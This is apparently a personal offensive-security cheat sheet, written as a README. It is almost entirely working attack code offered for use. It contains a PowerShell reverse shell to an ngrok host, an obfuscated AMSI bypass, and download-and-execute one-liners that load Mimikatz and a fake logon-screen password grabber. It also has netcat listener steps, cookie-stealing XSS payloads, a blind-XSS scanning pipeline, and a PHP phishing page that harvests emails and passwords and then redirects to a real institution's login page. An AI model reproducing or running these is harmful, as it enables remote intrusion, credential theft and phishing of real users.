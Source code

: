 # windows Rerverse shell
```php
$cthulhu = New-Object System.Net.Sockets.TCPClient('0.tcp.ngrok.io',19021 );$tntcl = $cthulhu.GetStream();[byte[]]$cult = 0..65535|% {0};while(($i = $tntcl.Read($cult, 0, $cult.Length)) -ne 0) {;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($cult,0, $i);$ex = (iex $d 2>&1 | Out-String );$ex2 = $ex + 'CF ' + (pwd).Path + '> '; $shog =([text.encoding]::ASCII).GetBytes($ex2);$tntcl.write($shog,0,$shog.Length); $tntcl.Flush()};

```
------------------------------------------------------

# AMSI BYPASS

```php
$forsec = 'System.Management.Automation.A';$yfd = 'si';$ted = 'Ut' + 'ils'
$astute = [Ref].Assembly.GEtTYpe(('{0}m{1}{2}' -f $forsec,$yfd,$ted))
$onlysecthings =$astute.Getfield(('am{0}InitFailed' -f $yfd),'NonPu' + 'blic' + ',St' + 'atic')
$onlysecthings.SetVALuE($null,$true)
```
------------------------------------------------------------

# invoke pattern to download into memory 
```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
```
# invoke important ps1 github

**MIMIKATZ**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```
**LOGIN SCREEN PASSWORD GRABBER**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-FakeLogonScreen.ps1')
```

-----------------------------------------------------------------------------------------------

    ngrok TCP PORT for rev listening 

    ngrok http for http service forwarding 


---------------------------------------------------------------------------------------------------

    ngrok tcp 1234
    nc -nvlp 1234

------------------------------------------------------------------------------------------------------

    tmate 

------------------------------------------------------------------------------------------------

# XSS Paylaods

```html
t3_u9po1l%2520onmouseover=alert(document.domain)%2520y=/t1_i5sxroa

javascript:alert(document.cookie)

"><img src=x onerror=prompt(document.cookie);> 

"><img src=x onerror=alert(1)>

<h1>Testing TG</h1>

flkdflkjslkf"><img%20src=x%20onmouseover=confirm(1)>

<svg onload="javascript:window.onerror=confirm;throw 10">
    
<scr<h1>ipt>document.write("<img src=x onerror=confirm(1);>");</scr<h1>ipt>

<svg/onload=alert(1)>
    
```

#alert in window 

    Add-Type -AssemblyName PresentationCore,PresentationFramework

`for alert`

    [System.Windows.MessageBox]::Show($Messageboxbody,$MessageboxTitle,$ButtonType,$messageicon)

# 1linerXSS

    gospider -S subdomains.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox -b astutehacker.xss.ht pipe -o result3.txt

#phishing 
make proccess.php and give process.php to action=/process.php
content of process.php
```
<?php
if(isset($_POST['email']) && isset($_POST['password'])) {
    $password = file_get_contents('phishing.txt');
    $phishing = fopen("phishing.txt", "a");
    fwrite($phishing, $password."email: ".$_POST['email']." Password: ".$_POST['password']."\n");
    fclose($phishing);
    echo '<script>window.location.href="https://su.icloudems.com/corecampus/index.php" </script>';
} else {
    echo '<script>window.location.href="index.html"</script>';
}
?>
```
`"><SVG ONLOAD%3d%26%2397%26%23108%26%23101%26%23114%26%23116(%26%23x64%26%23x6f%26%23x63%26%23x75%26%23x6d%26%23x65%26%23x6e%26%23x74%26%23x2e%26%23x63%26%23x6f%26%23x6f%26%23x6b%26%23x69%26%23x65%26%23x29>`

